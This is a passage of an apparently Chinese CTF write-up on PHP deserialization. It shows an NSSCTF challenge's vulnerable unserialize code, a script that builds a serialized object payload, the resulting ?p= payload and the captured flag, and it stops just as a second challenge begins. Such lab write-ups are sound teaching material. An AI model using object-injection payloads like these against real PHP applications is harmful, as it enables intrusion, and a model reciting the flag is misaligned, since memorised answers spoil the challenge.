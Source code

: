 ## 本周重点
### 记5道反序列化题（nss）
1.[SWPUCTF 2021 新生赛]ez_unserialize
打开题目看到页面
![9a5f2266dd5cd968bd4de513d342d578.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1700058006030-6912e563-c491-4363-b907-8a1822756afe.png#averageHue=%23eae7e6&clientId=u105ed2d3-ade7-4&from=paste&height=350&id=u8de7b2a9&originHeight=438&originWidth=479&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=118357&status=done&style=none&taskId=uc0a29ab4-b15f-446c-b9d3-c9a47878ea5&title=&width=383.2)
查看源代码
![5600c471b36cd7c9ca480a7b6309c65b.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1700058023988-97a82167-684f-4677-8083-7f21344074ce.png#averageHue=%23fefdfd&clientId=u105ed2d3-ade7-4&from=paste&height=380&id=u9eb15d74&originHeight=475&originWidth=1075&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=46795&status=done&style=none&taskId=u31fb7aa6-a1bc-4f99-baca-903f4752d49&title=&width=860)
明示爬虫泄露
![22d58d64be469f639739e2fce2ef39a8.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1700058094672-6bce738a-0eec-4d37-be69-1b4767eeb2ba.png#averageHue=%23fcfbfa&clientId=u105ed2d3-ade7-4&from=paste&height=74&id=u4499a0b6&originHeight=92&originWidth=299&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=3597&status=done&style=none&taskId=u9efa0b67-48a4-40e5-9bd7-756c6dd0ae9&title=&width=239.2)
得到题目地址
```
 <?php

error_reporting(0);
show_source("cl45s.php");

class wllm{

    public $admin;
    public $passwd;

    public function __construct(){
        $this->admin ="user";
        $this->passwd = "123456";
    }

        public function __destruct(){
        if($this->admin === "admin" && $this->passwd === "ctf"){
            include("flag.php");
            echo $flag;
        }else{
            echo $this->admin;
            echo $this->passwd;
            echo "Just a bit more!";
        }
    }
}

$p = $_GET['p'];
unserialize($p);

?> 
```
看到echo $flag所以要启动destruct方法，所以我们要销毁类，即直接构造new wllm进入destruct方法中，然后满足条件语句即可得到flag
```
 <?php
class wllm{
    public $admin=admin;
    public $passwd=ctf;
}
$a=new wllm;
echo serialize($a);


?p=O:4:"wllm":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:3:"ctf";}
NSSCTF{8d00bc78-5af2-4b20-9d2e-4b3a13cf54c0}
```
2.[SWPUCTF 2022 新生赛]1z_unserialize
```
 <?php
 
```